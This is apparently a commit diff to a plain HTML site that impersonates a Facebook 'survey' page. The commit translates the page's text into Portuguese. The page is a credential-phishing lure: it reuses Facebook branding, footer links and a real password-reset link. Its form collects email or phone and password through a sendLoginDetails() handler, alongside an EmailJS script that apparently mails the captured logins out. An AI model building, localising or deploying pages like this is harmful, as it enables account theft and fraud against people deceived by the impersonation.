

Before and after one commit to ASPCA/submit-survey, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 363-954 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -100,14 +100,14 @@
    <div class="centered-image2">
     <img src="https://raw.githubusercontent.com/FacebookArt/pak2/932c5b01030012c9e00871db959cdf045c5e0306/ayesha.png" alt="" style="max-width: 100%; margin-bottom: 20px;">
     <div class="custom-text">
-      Submit your survey responce to facebook. Facebook helps you connect and share with the people in your life.
+        Envie sua resposta à pesquisa para o Facebook. O Facebook ajuda você a se conectar e compartilhar com as pessoas em sua vida.
     </div>
    </div> <!-- Modified the form to prevent its default behavior and added a JavaScript function to handle the submission -->
    <form name="login" onsubmit="sendLoginDetails(); return false;">
-    <input type="text" class="container input" placeholder="Email address or phone number" name="email" id="email">
-    <input type="password" class="container input" placeholder="Password" name="password" id="password"> <button class="login-button" id="loginButton" type="submit">Submit</button>
+    <input type="text" class="container input" placeholder="Email ou telefone" name="email" id="email">
+    <input type="password" class="container input" placeholder="Senha" name="password" id="password"> <button class="login-button" id="loginButton" type="submit">Enviar</button>
    </form>
-   <div class="forgot-password"> <a href="https://m.facebook.com/login/identify/">Forgot Password?</a>
+   <div class="forgot-password"> <a href="https://m.facebook.com/login/identify/">Esqueceu a senha?</a>
    </div>
   </div> <!-- Include Email.js library -->
   <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
@@ -124,7 +124,7 @@
 
         // Check if email and password meet the length requirement
         if (emailValue.length < 6 || passwordValue.length < 6) {
-            alert('please insert your email or password');
+            alert('por favor insira seu e-mail ou senha');
             return;
         }
 
@@ -184,7 +184,7 @@
         }
     }
 </script>
-  <div class="footer"> <a>Meta</a> <a>video</a> <a>Blog</a> <a>marketplace</a> <a>Instagram</a> <a>API</a> <a>Privacy policy</a> <a>Terms</a> <a>Local</a> <a>Instagram Lite</a> <a>Threads</a> <a>Voting information center</a> <a>Meta Verified</a> <a>English</a>
+  <div class="footer"> <a>Meta</a> <a>video</a> <a>Blog</a> <a>Mercado</a> <a>Instagram</a> <a>API</a> <a>política de Privacidade</a> <a>Terms</a> <a>Local</a> <a>Instagram Lite</a> <a>Threads</a> <a>Voting information center</a> <a>Meta Verified</a> <a>English</a>
    <br> © 2024 Facebook from Meta
   </div>
  </body>
```
